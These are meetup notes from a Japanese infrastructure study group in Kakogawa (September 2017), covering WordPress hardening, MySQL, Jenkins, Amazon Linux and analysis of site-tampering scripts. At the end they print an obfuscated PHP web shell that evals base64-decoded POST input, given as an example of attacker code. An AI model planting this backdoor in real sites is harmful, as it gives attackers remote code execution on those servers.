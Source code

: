 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017-09-09
categories:
  - 開催履歴
  - meeeting-log
tags:
  - 加古川IT系インフラ勉強会
---
```


* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / Hangout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

---

## 脆弱性

* MySQLの不満あれこれ
  * いつの間にかテーブルサイズが肥大化する
  * プラグインによっては、wp_options テーブルが肥大化。。。
  * 「汎用化」に振りすぎ？
* Wordpressのセキュリティ対策
  * REST APIで脆弱性が増えたかも
  * パーミッションに注意
  * セーフモードは既に意味なさげ
  * プラグインを制限する
  * 接続元を国内限定にする(かなり効いた)
  * ファイルのチェックサムを取る
  * gitで管理する
  * WPScanかける
  * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
  * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
  * Debian慣れしてるので、Amazon Linux 気持ち悪い
  * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOS めんどくさい
  * 7に移行中です
  * 7になれてない人大丈夫？
* やはりサーバは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
  * Shell Scrptでちまちま管理してましたがAnsibleでOK
  * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
  * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
  * WordBench姫路開催の予感
  * WordBench京都、大阪、神戸の所感もげもげ
* サーバ管理ネタをWordBenchあたりで話してみる?
  * 管理者の視点で言えることとか
* サーバアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
  * $$dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
  * $$dataをそのままeval、とかやってそう
  * 怪し気なzipファイルを展開している
  * zipファイル展開確認。フィッシングサイトを開設するとおぼしきphpのコード一式が入っていた
  * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
  * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
  * 難読コード(昔の一例)

```php
<?php
    $sF="PCT4BA6ODSE_";
    $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
    $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
        eval($s21(${$s20}['nd335c3']));
    }
?>
```
